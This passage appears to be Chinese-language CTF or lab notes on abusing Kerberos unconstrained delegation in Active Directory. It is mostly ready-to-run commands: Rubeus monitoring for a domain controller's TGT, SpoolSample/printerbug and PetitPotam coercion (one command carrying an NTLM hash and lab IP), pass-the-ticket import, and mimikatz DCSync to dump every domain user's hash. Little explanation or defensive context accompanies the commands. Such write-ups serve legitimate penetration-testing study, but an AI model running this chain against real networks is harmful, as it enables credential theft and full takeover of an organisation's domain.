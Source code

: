 通过win7的`本地管理员`权限运行rubeus.exe进行监听

```bash
Rubeus.exe monitor /interval:5 /filteruser:DC$

# /interval:5 设置监听间隔5秒
# /filteruser 监听对象为我们的域控，注意后面有个$，如果不设置监听对象就监听所有的TGT
```

然后通过spoolsample.exe强制dc向win7机器进行身份验证，rubeus就会监听到base64编码后的TGT

```bash
SpoolSample.exe DC WIN7-PC
```

或者还可以使用 `printerbug.py`

通过rubeus导入票据

```bash
rubeus.exe ptt /ticket:<ticket>
```

通过mimikatz可导出域中所有用户的hash

```bash
mimikatz.exe "lsadump::dcsync /domain:ccc1.test /all /csv" exit
```

#### PetitPotam

**条件：**

- 目标支持 MS-EFSR 协议
- 拥有一个域用户凭据信息

Rubeus.exe需要`管理员`权限

[Rubeus.exe](F:\ctfTools\Ghostpack-CompiledBinaries\Rubeus.exe)

```bash
Rubeus.exe monitor /interval:1 /filteruser:DC01$
```

[petitpotam.py](F:\ctfTools\PetitPotam\petitpotam.py)

```bash
python PetitPotam.py -u 'WIN19$' -hashes :2c05ad434d747b203a57565194891b38 -d xiaorang.lab -dc-ip 172.22.4.7 WIN19.xiaorang.lab DC01.xiaorang.lab
```

获取`DC01$` 的 TGT

![202308091657142](F:\LocalCTF\pictures\202308091657142.png)

导入 TGT 然后 DCSync

```bash
Rubeus.exe ptt /ticket:xxx
mimikatz.exe "lsadump::dcsync /all /csv"
```
